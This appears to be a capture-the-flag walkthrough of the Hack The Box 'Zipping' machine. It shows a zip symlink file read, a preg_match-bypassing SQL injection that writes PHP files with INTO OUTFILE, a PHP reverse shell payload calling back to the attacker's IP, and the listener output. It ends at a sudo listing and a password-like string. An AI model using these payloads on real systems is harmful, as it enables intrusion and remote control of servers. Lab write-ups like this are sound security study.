# #1 Introduction
![image](https://github.com/Mate0r/app.hackthebock.com/assets/94843357/4cf7f881-56aa-4262-a3b0-2f436a100a2e)

# #2 nmap

we first add a domain in /etc/hosts so we don't need to remember the IP
```bash
10.10.xx.xx zipping.htb
```

we run an nmap scan as sudo so it's doing a SYN scan and not a full TCP connection so it's faster

```bash
sudo nmap -T4 -sV -p- zipping.htb
```

we got these open ports
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.0p1 Ubuntu 1ubuntu7.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.54 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# #3 user.txt

## HTTP (port 80)

by fuzzing the website with feroxbuster, we identify all these urls : 
```
http://zipping.htb/upload.php \
http://zipping.htb/shop \
http://zipping.htb/uploads \
http://zipping.htb/shop/functions.php \
http://zipping.htb/shop/home.php \
http://zipping.htb/index.php \
http://zipping.htb/shop/placeorder.php \
http://zipping.htb/shop/product.php \
http://zipping.htb/shop/products.php \
http://zipping.htb/shop/cart.php \
```

we found in upload.php that we can upload zip and use a vulnerability that allow us to arbitrary read files on the server
```
ln -s /var/www/html/shop/product.php cv.pdf
zip cv.zip cv.pdf
```

by downloading the files of the shop application, we found there is some sqli \
we can use this payload to bypass the preg_match function (https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/php-tricks-esp#preg_match-.) \
in this payload, we will write a file by mysql (so we have user mysql) that can write in /var/lib/mysql/
```

';select '<?php phpinfo(); ?>' into outfile '/var/lib/mysql/test.php';--2
```

we encode this for url 
```
%0A%27%3Bselect%20%27%3C%3Fphp%20phpinfo%28%29%3B%20%3F%3E%27%20into%20outfile%20%27%2Fvar%2Flib%2Fmysql%2Ftest.php%27%3B--2
```

so we have the final url that should create a test.php file that give us a phpinfo in the /shop/ directory
```
http://zipping.htb/shop/index.php?page=product&id=%0A%27%3Bselect%20%27%3C%3Fphp%20phpinfo%28%29%3B%20%3F%3E%27%20into%20outfile%20%27%2Fvar%2Flib%2Fmysql%2Ftest.php%27%3B--2
```

<img width="1160" alt="image" src="https://github.com/Mate0r/app.hackthebock.com/assets/94843357/ab6732bf-14aa-4d99-8058-b584a0db0794">


so let's now do a reverse shell 
```

';select "<?php $sock=fsockopen('10.10.14.186',6666);$proc=proc_open('/bin/sh -i', array(0=>$sock, 1=>$sock, 2=>$sock),$pipes); ?>" into outfile "/var/lib/mysql/revshell.php";--2
```

```
http://zipping.htb/shop/index.php?page=product&id=%0A%27%3Bselect%20%22%3C%3Fphp%20%24sock%3Dfsockopen%28%2710.10.14.186%27%2C6666%29%3B%24proc%3Dproc_open%28%27%2Fbin%2Fsh%20-i%27%2C%20array%280%3D%3E%24sock%2C%201%3D%3E%24sock%2C%202%3D%3E%24sock%29%2C%24pipes%29%3B%20%3F%3E%22%20into%20outfile%20%22%2Fvar%2Flib%2Fmysql%2Frevshell.php%22%3B--2
```


we got a reverse shell now
```
┌──(parallels㉿kali)-[~/hacking/htb/Zipping/files]
└─$ nc -lvnp 6666
listening on [any] 6666 ...
connect to [10.10.14.186] from (UNKNOWN) [10.10.11.229] 48198
/bin/sh: 0: can't access tty; job control turned off
$
```

we found we have some authorizations with sudo
```
rektsu@zipping:/usr/bin$ sudo -l
Matching Defaults entries for rektsu on zipping:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User rektsu may run the following commands on zipping:
    (ALL) NOPASSWD: /usr/bin/stock
```

St0ckM4nager
